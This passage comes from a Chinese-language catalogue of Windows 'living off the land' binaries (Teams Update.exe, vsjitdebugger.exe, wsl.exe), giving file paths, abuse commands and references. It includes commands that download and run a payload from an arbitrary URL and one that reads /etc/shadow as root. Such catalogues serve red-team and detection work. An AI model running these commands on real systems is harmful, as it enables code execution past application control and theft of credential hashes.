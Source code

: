 Microsoft Teams安装的一部分，更新现有已安装的Nuget/squirrel软件包。 

文件路径:
```
%localappdata%\Microsoft\Teams\update.exe
```
- 执行方式：
```
Update.exe --download [url to package]
Update.exe --update [url to package]
Update.exe --updateRollback=[url to package]
Update.exe --processStart payload.exe --process-start-args "whatever args"
```
- 参考资料：
```
https://www.youtube.com/watch?v=rOP3hnkj7ls
https://twitter.com/reegun21/status/1144182772623269889
https://twitter.com/MrUn1k0d3r/status/1143928885211537408
http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
```
## vsjitdebugger.exe
- 使用说明：

Visual Studio中的jit调试工具。

文件路径:
```
c:\windows\system32\vsjitdebugger.exe
```
- 执行方式：
```
Vsjitdebugger.exe calc.exe
```
- 参考资料：
```
https://twitter.com/pabraeken/status/990758590020452353
```
## Wsl.exe
- 使用说明：

从Windows命令行运行Linux工具.

文件路径:
```
C:\Windows\System32\wsl.exe
```
- 执行方式：
```
wsl.exe -e /mnt/c/Windows/System32/calc.exe
wsl.exe -u root -e cat /etc/shadow
```
- 参考资料：
```
https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
```
# 脚本文件(4个)
## CL_Mutexverifiers.ps1
- 使用说明：
